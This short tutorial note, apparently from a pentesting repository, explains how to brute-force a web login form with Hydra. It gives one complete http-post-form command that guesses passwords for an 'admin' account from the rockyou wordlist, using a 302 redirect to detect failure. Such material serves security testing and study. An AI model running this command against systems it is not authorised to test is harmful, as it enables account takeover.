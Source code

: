 # Brute Force Login Forms with HYDRA
This module will contain the syntax used for successful brute force methods to a web application form.
## HTTP-POST-FORM
This can be used when an HTTP response of 302 (redirection) comes from a login failure:

`hydra -l admin -o TARGET-IP.hydra -P /wordlists/rockyou.txt (TARGT IP) http-post-form "/login.asp:username=^USER^&password=^PASS^&submit=Enter:F=302"`
